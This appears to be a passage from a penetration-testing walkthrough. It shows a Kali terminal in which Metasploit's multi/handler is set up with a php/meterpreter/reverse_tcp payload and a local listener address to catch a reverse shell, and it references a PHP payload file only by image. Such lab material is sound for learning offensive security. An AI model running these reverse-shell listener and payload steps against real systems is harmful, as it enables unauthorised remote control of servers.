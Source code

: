 ![](Images/rvb.php.png)

## Start msfconsole
```
root@Kali:~# msfconsole
[-] ***rting the Metasploit Framework console...\
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v5.0.76-dev                          ]
+ -- --=[ 1971 exploits - 1088 auxiliary - 339 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.1.105
LHOST => 192.168.1.105
msf5 exploit(multi/handler) > exploit

[-] Handler failed to bind to 192.168.1.105:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 

```